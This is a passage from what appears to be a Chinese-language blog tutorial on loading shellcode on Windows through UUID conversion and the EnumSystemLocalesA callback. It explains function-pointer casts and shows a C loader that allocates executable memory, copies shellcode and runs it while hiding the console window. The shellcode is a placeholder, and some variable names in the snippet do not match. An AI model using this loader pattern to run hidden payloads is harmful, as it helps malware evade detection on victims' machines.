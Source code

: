 2. 以二进制形式返回指向 UUID 的指针

第一项参数很好理解，第二项参数可能翻译过来有点牵强，很好理解，就是用来接收二进制字节序列的指针。

其实 python 中也有 uuid 库，转换挺方便的，把字节序列转换成 uuid，再把 uuid 转换成字节序列

![](https://oscimg.oschina.net/oscnet/a6787e06-ee69-4a5c-8338-dc1d25305ede.png)

还有需要注意的点，就是 windows 二进制字节序列是用的小端计数法, 转换时且二进制序列必须 16 个字符为一组。

### 2.EnumSystemLocalesA

微软官方文档：  

![](https://oscimg.oschina.net/oscnet/44ac5a10-ee8b-4f0f-a717-0d83ad1b66cf.png)

这里牵扯到回调函数：

回调函数就是一个通过函数指针调用的函数，意思是通过函数指针来调用函数，字面不好理解，你不妨看看以下示例

```
（（void（*）（））exec）();

```

这段代码很经典，很多人看了很懵逼，但是对于懂指针的人来说，理所当然，在 c 语言中，函数变量名存的就是一个函数入口地址，换句话说函数变量名就是一个指针。  

然后再让我们理解以下上面那句代码

```
void(*)() #定义一个函数指针，函数返回值为空
（（void（*）（））exec #强制类型转换，把exec指针强制转换成函数指针
（（void（*）（））exec）();#执行入口地址为exec指向的地址的函数

```

而 EnumSystemLocalesA 函数的第一次个参数就是回调函数地址，第二个参数是指定要枚举的语言环境标识符的标志。

那么上面的就可以写成这个样子：

```
EnumSystemLocalesA（exec,0）;

```

我们先来看普通的 shellcode 的 c 加载方式

```
#include <windows.h>  
#include <stdio.h> 
#不弹窗
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"") 
#pragma comment(linker, "/INCREMENTAL:NO")   

unsigned char shellcode[]="shellcode binary ";

int main()
{
  char *a = VirtualAlloc(NULL, sizeof(xor_xcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(a, xcode, sizeof(xcode));
  ((void(*)())a)();
  return 0;
}

#include<Windows.h>
#include<iostream>
```